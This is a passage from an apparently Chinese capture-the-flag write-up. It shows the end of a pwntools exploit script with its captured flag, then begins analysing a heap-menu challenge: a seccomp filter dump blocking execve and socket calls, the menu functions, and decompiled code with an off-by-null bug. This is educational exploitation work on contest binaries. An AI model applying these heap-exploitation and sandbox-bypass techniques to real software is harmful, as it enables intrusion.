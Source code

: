 ```

p.sendafter('name?','./flag\x00')
p.sendlineafter("how old are you??",str(100))

p.sendafter('name?','./flag\x00')
p.sendlineafter("how old are you??",str(100))

debug()
p.interactive()
//flag`{`48e13dc24d00405599522395a6160972`}`
```

最终拿到flag

[![](https://p1.ssl.qhimg.com/t01d699f7a05201f3da.png)](https://p1.ssl.qhimg.com/t01d699f7a05201f3da.png)



## 内部赛题目

### <a class="reference-link" name="0x00%20%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90&amp;&amp;%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>0x00 程序分析&amp;&amp;漏洞分析

同样的也设置了沙箱规则，禁用了execve，同样的需要orw来读取flag

```
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x07 0x00 0x40000000  if (A &gt;= 0x40000000) goto 0011
 0004: 0x15 0x06 0x00 0x00000029  if (A == socket) goto 0011
 0005: 0x15 0x05 0x00 0x0000002a  if (A == connect) goto 0011
 0006: 0x15 0x04 0x00 0x00000031  if (A == bind) goto 0011
 0007: 0x15 0x03 0x00 0x00000032  if (A == listen) goto 0011
 0008: 0x15 0x02 0x00 0x00000038  if (A == clone) goto 0011
 0009: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```

经典的堆菜单题目，下面对程序的基本功能进行简单的分析：
- add：添加一个堆块，要求size&lt;=0x200，最大数量为20个，可以读入size大小的数据，add功能的限制相对比较宽松。
- exit：执行exit函数退出
- delete：这里又提供了2种选择，show和edit
这里以edit为例进行简单的分析，show和edit是完全一致的：

```
_free_hook = (__int64)edit;//首先是对__free_hook的值进行设置
//edit函数
void __fastcall edit(char *a1)
`{`
  int v1; // [rsp-Ch] [rbp-Ch]

  __asm `{` endbr64 `}`
  _free_hook = 0LL;
  v1 = *(a1 - 8) - 9;                           
  printf("Info:");
  if ( v1 &gt; 1 )                                 // check
  `{`
    read(0, a1, v1 - 1);
    a1[v1] = 0;                                 // off by null
  `}`
```